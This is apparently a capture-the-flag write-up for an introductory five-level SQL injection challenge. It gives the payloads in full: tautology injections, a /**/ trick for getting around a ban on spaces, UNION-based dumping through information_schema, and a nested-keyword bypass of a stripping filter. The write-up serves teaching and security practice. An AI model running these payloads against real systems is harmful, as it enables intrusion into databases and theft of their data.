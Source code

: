 # Baby SQLi (75 points)

Baby SQLi is meant to be an introductory challenge for SQL injections.
The goal was to teach about SQLi by encouraging participants
in doing the injections manually.

Some teams decided to try all of them with SQLmap, but soon enough
you'd end up having a hard time on Level 5 since filtering is involved.

With that being said, if you spend enough time googling,
you can find all of the solutions to these challenges online :D

Side note : I might have miscalculated the scoring on that one ;)
I was not expecting people to have such a hard time here, sorry
about that...

## Level 1

> http://localhost:16000/41633f246db7935ae490abcef7a72eb0.php?id=0

> This database has a bunch of secrets, but you need an ID to fetch them. Can you find a way to dump all the secrets?

Here we have to find a way to dump all the rows in a table without
knowing the IDs.

We can assume that the SQL query looks something like this :
```
SELECT *
FROM secrets
WHERE id = '[injection]'
```

In order to dump all the rows, our payload should be `' or 'x'='x`, resulting
in :

```
SELECT *
FROM secrets
WHERE id = '' or 'x'='x'
```

... which will be `true` for all rows since `'x'='x'` is always `true`.

> http://localhost:16000/41633f246db7935ae490abcef7a72eb0.php?id=%27%20or%20%27x%27=%27x

## Level 2

This level is essentially the same, but the webapp will give you an error message
if your payload uses spaces.

By googling `sql injection no spaces`, there are a bunch of articles available
on how to bypass this issue.

A popular one is to replace the spaces with `/**/`.

The solution to this challenge becomes `'/**/or/**/'x'='x`:

```
SELECT *
FROM secrets
WHERE id = ''/**/or/**/'x'='x'
```

## Level 3

This level is an introduction to `UNION` injections. Until now, the tokens
were stored in the same table as the one we're querying.

Level 3 requires us to fetch the contents of a `tokens` table despite the
fact that the webapp is querying a `recipes` table.

In the end, the final request needs to look like the following :

```
SELECT *
FROM recipes
WHERE recipe LIKE '%'
UNION SELECT *
FROM tokens
WHERE '%'='%'
```

The payload should be : `' UNION SELECT * FROM tokens WHERE '%'='`

## Level 4

This level presents the concept of metadata tables.

In level 3, the name of the table was given (`tokens`). In a real life
SQL injection, that information is rarely available.

So the challenge here is to figure out the name of the new table.

After a couple of google searches you'll find articles like [this one](https://websec.ca/kb/sql_injection#MySQL_Tables_And_Columns) detailing the existing of
`information_schema.tables`.

The `information_schema` database has a large collection of tables containing
metadata like a list of table names, column names, variables, etc. By querying
this table, we can figure out the name of our new token table.

The final request needs to look like the following :

```
SELECT *
FROM recipes
WHERE recipe LIKE '%'
UNION SELECT table_name, 0
FROM information_schema.tables
WHERE '%'='%'
```

The reason why we are using `table_name, 0` instead of just `table_name`
is because `UNION` statements require that both both tables have the same
number of columns. So we select the column we want, and add a dummy value
next to it.

TL;DR : You can't merge a 2 column table with a 9 column table.

Our final payload should be :
`' UNION SELECT table_name, 0 FROM information_schema.tables WHERE '%'='%`

One of the table names was the token.

## Level 5

> The final challenge.
> The token is once again hidden somewhere in the database. Also, a new defense mechanism has been added to prevent your evil injections.
> Good luck!

Finally, we're at level 5. This challenge was the only one you couldn't solve
with SQLmap natively.

This level is pretty much the same as the one before, but a new "defense
mechanism" has been added.

### Bypassing the filter

When we try the payload from the previous level, we get a warning message.
> Warning : Dangerous keywords have been removed.

Some keywords are removed when performing our query, let's figure out which
ones.

A simple way to do this is to take a valid query and add keywords to it.
If the query is still valid, we can assume that the webapp removed it.
If the query is not valid, the webapp didn't filter it.

For example :

`http://localhost:16000/edf65cdde5abaf16e4a7a5f378ee302c.php?str=a` will give us
all comic books with an `a` in it.

`http://localhost:16000/edf65cdde5abaf16e4a7a5f378ee302c.php?str=aUNION` will generate
a warning and **still** give us all the comic books with an `a` in it.

So we can assume that the webapp filtered the **UNION** out out.

Using this technique, 3 keywords are found to be filtered :
- UNION
- SELECT
- FROM

These keywords are essential for our SQL injection though... So we need to figure
out how to use these words despite the fact that they are removed.

Googling `sql injection filter bypass` will land you in articles like this one :
https://support.portswigger.net/customer/en/portal/articles/2590739-sql-injection-bypassing-common-filters- explaining the bypass.

The trick is to embed invalid keywords into other invalid ones.

The best way to explain this is with an example :

```
Given "ABC SELFROMECT ABC".

What happens if we remove all instances of "FROM"?

We end up with "ABC SELECT ABC".
```

By embedding invalid keywords, removing them forms new keywords.

Therefore, when doing SQL injections for this challenge, our new keywords are :
```
- UNION => UNIUNIONON
- SELECT => SELSELECTECT
- FROM => FRFROMOM
```

### Final payload
Let's use our payload from level 4 and update the keywords with our new bypass.
I'm using `table_name, column_name` to fetch both the tables and columns
at the same time.

```
' UNIUNIONON SELSELECTECT table_name, column_name FRFROMOM
information_schema.columns WHERE '%'='%
```

This will give us the following tables/columns :
```
mysterious_secret_table -> id
mysterious_secret_table -> 1337_leet_haxor_token_column
mysterious_secret_table -> some_useless_column
```

Lastly, we do a UNION injection to fetch the `1337_leet_haxor_token_column`
column and retrieve the last token.

```
a' UNIUNIONON SELESELECTCT id, 1337_leet_haxor_token_column FROFROMM mysterious_secret_table WHERE '%'='%
```

75 points might not have been enough here ^^"
Sorry!
